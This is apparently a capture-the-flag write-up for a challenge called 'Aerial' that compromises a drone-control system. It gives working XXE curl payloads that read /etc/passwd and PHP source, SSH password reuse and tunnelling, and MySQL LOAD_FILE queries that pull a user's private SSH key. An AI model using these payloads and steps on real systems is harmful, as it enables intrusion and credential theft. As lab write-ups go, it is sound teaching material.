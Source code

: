 ## Aerial

There are some endpoints that communicate using JSON payloads.

It turns out that the `activate.php` endpoint can also be called with a xml payload and is vulnerable to XXE attacks.
We can then perform these two curls to retrieve the content of the `/etc/passwd` and `readings.php` files.

```shell
curl -X POST -H "Content-Type: application/xml" -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ELEMENT root ANY ><!ENTITY xxe SYSTEM "file:///etc/passwd" >]><root><code>&xxe;</code></root>' http://[IP]:9085/activate.php
curl -X POST -H "Content-Type: application/xml" -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ELEMENT root ANY ><!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=readings.php" >]><root><code>&xxe;</code></root>' http://[IP]:9085/activate.php
```

By doing so we found the password used by the `kestrel` user to access the `data_subsystem` module which is a mysql instance.
We can use these credentials to login via ssh because of password reuse.

```shell
ssh kestrel@[IP] -p 2235
```

It works. Let's tunnel to access the database.

```shell
ssh kestrel@[IP] -p 2235 -L 3306:data_subsystem:3306
```

Now the `3306` port is mirrored to our local `3306` port, and now we can easily use any db client to access the database directly using that local port.

The MySQL server is vulnerable to local file read from the `kestrel` user:

```sql
SHOW GRANTS FOR 'kestrel'@'%';
SELECT LOAD_FILE('/etc/passwd')
```

Alright, the `factory` user exists. Let's read his `id_rsa` file.

```sql
SELECT LOAD_FILE('/home/factory/.ssh/id_rsa')
```
From the first container we can login via ssh with these commands:

```shell
chmod 600 factory_id_rsa
ssh factory@data_subsystem -i factory_id_rsa
```

where `factory_id_rsa` is the `id_rsa` file we just exfiltrated.

Oh, look! A `factory_reset.sh` file is present within his home folder.
It has his MySQL credentials to the `settings` database!
We can now decide to access the database and see the value of the `activation_code` setting, or we can just run the script again to set it to the default value we can see from the script.

Let's use the activation code to activate the drone.

Sweet, now we can access the controls! The flag will appear in the controls page.